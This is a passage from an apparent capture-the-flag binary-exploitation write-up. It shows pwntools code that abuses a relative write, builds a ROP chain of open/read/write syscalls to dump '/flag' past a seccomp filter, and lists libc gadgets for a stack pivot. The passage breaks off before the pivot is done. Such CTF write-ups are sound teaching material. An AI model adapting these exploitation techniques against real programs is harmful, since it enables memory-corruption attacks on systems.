 ```python
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"200")
    p.recvuntil(b">")
    p.sendline(str(2592+9+i).encode())
    p.recvuntil(b">")
    p.sendline(b"0")
    p.recvuntil(b">")
    p.sendline(b"2")
```

### Building our ropchain

We have a leak, we know where the flag file is, and the `seccomp` profile allows `sys_open`, `sys_read` and `sys_write`.
This isn't even a challenge, we can let `pwntools` do the heavy lifting.

```python
# Writing the filename of the flag in memory
filename_addr = libc.address - 0x2a00
filename_offset = 0x225f0
filename = b"/flag"
for i in range(len(filename)):
  relative_write(filename[i], filename_offset + i)

# Writing our ropchain in memory
rop = ROP(libc)
rop(rax=2, rdi=filename_addr, rsi=0, rdx=0)
rop.raw(syscall)
rop(rax=0, rdi=3, rsi=filename_addr, rdx=0x100)
rop.raw(syscall)
rop(rax=1, rdi=1, rsi=filename_addr, rdx=100)
rop.raw(syscall)
rop(rax=60, rdi=0)
rop.raw(syscall)

ropchain = rop.chain()
ropchain_offset = 0x22008
```

### Stack Pivoting

Now, we just need a way a pivot the stack, then we'll have the flag.

To be fair, at this point, there is probably a lot of ways to do it. But since we hacked the `link_maps` earlier, let's continue.

We have 2 gadgets in `libc` that we can use : 

```asm
mov rsp, r8; mov rbp, r9; jmp rdx;
mov r8, rdx; mov qword ptr [rdi], r8; mov qword ptr [rdi + 8], rcx; xor eax, eax; ret;
```
